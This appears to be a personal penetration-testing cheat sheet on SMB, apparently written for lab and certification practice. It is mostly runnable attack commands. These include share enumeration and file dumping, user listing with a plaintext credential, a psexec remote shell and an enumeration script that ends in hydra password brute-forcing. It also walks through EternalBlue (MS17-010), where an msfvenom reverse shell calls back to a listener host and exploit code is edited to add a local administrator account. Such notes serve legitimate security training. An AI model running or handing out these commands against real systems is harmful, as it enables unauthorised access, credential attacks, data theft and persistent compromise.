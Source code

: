 # (139,445) SMB

<details>

<summary>List shares</summary>

```bash
smbclient -L //10.130.40.80 -N
```

```bash
nxc smb 10.11.1.123 -u '' -p ''
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
```

```bash
smbmap -H <ip> -R
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Username Enumeration</summary>

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson

impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
shares --> to see available SMB shares
use <share_name> --> switch to this SMB share


# List shares & view permissions
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --shares
# Dump all files from all readable shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k -M spider_plus
# Get Specific File
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-file 'Network Security Changes.pdf' /tmp/Network_Security_Changes.pdf --share "Public" 
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Increase Timeout For Large Files</summary>

```bash
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
timeout 120
iosize 16384
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
